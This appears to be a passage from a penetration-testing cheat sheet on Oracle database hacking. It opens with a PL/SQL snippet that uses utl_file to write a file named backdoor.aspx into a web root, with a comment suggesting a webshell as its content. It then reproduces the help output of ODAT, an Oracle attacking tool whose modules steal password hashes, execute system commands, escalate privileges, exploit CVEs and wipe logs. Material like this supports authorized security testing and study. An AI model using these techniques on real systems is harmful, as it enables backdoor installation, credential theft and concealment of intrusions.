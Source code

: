 ```bash=


# write files
declare
  f utl_file.file_type;
  s varchar(1100) := 'string to write [preferably a webshell!!]';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'backdoor.aspx', 'W');
  utl_file.put_line(f,s);
  utl_file.fclose(f);
end;
```
----------------------------------------------------------------------------------
### ODAT
```
# for Oracle Database hacking
odat -h

  _        __           _           ___ 
 / \      |  \         / \         |_ _|
( o )       o )         o |         | | 
 \_/racle |__/atabase |_n_|ttacking |_|ool 
-------------------------------------------

By Quentin Hardy (quentin.hardy@protonmail.com or quentin.hardy@bt.com)

positional arguments:
  {all,tnscmd,tnspoison,sidguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
                      
                      Choose a main command
    all               to run all modules in order to know what it is possible to do
    tnscmd            to communicate with the TNS listener
    tnspoison         to exploit TNS poisoning attack
    sidguesser        to know valid SIDs
    passwordguesser   to know valid credentials
    utlhttp           to send HTTP requests or to scan ports
    httpuritype       to send HTTP requests or to scan ports
    utltcp            to scan ports
    ctxsys            to read files
    externaltable     to read files or to execute system commands/scripts
    dbmsxslprocessor  to upload files
    dbmsadvisor       to upload files
    utlfile           to download/upload/delete files
    dbmsscheduler     to execute system commands without a standard output
    java              to execute system commands
    passwordstealer   to get hashed Oracle passwords
    oradbg            to execute a bin or script
    dbmslob           to download files
    stealremotepwds   to steal hashed passwords thanks an authentication sniffing (CVE-2012-3137)
    userlikepwd       to try each Oracle username stored in the DB like the corresponding pwd
    smb               to capture the SMB authentication
    privesc           to gain elevated access
    cve               to exploit a CVE
    search            to search in databases, tables and columns
    unwrapper         to unwrap PL/SQL source code (no for 9i version)
    clean             clean traces and logs

optional arguments:
  -h, --help          show this help message and exit
  --version           show program's version number and exit
```